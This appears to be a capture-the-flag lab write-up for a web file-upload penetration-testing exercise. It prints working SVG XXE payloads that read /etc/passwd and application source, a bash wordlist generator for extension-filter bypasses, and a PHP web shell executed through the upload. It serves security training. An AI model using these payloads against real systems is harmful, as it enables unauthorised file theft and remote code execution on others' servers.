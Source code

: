 # Skills Assessment

#### You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***



For this Skills Assessment we have a web application with some default content, and we have to test the upload screenshot feature to test if there is any vulnerability.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

The main focus of this assessment is this page. We can access it by clicking in **Contact Us**. To capture the essential requests we don't need to actually submit the data, just press the green and black button above.

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

The POST Request should look something like this. And as we can see from the Response, we don't have  an actual storage location of the image.

Since we got a **base64** encoded string from the Response, we can try if we can retrieve the upload.php script from the server, and see where the images are being saved.

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Just by modifying the filename with a **.svg** extension we can execute XML code on the backend. Fortunately the the application does not have any protection to this and as we can see from the output above we manage to get the /etc/passwd with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Since we confirmed the web application is vulnerable to XXE, we can use this to read the web application's source files:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Now all we have to do is decode the **base64** string and hope that we got the source code of the upload.php file.

We can use the following command to do it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We manage to read the **upload.php** script! The **$target\_dir** indicates where the images are being saved. Also notice that the **$fileName** gives us an important information, the dog.jpeg is renamed to **currentdate\_dog.jpeg** once gets uploaded to the server. This important in order to try to reach the image.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we manage to get the actual image URL. It should look something like this:

**`http://SERVER_IP:PORT/contact/hiddenpath/currentdate_filename.ext`**

\
Now lets try to bypass any image upload filtering.

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can use the same request used previously, we send it to the Intruder and made the following changes:

Add the selection to the filename

Keep the **ÿØÿà** - this is the ÿØÿà that will make the server read the content as a jpg file

Add the \<?php echo "shell test";?> to test the code execution

Create a word list with the following code:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do                      
    for ext in '.jpeg' '.jpg'; do
        echo "shell$char$ext.svg" >> wordlist.txt
        echo "shell$ext$char.svg" >> wordlist.txt
        echo "shell.svg$char$ext" >> wordlist.txt
        echo "shell.svg$ext$char" >> wordlist.txt
    done
done
```

Lastly, make sure to disable URL encoding and launch the attack.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this Request format we should look to the ones with a lenght over 366. In this case we select the **shell.phar:.jpg**.



<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And the PHP code was executed!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, lets send the same Request to the Repeater and make an actual shell.&#x20;

Add the **shell.phar:.jpg** to the filename and `<?php system($_REQUEST['cmd']); ?>` after the **ÿØÿà** signature and send it!

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We add the **?cmd=id** to the URL and we are able to successfully execute a command!

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have fun wandering around to look for the flag and eventually made it!

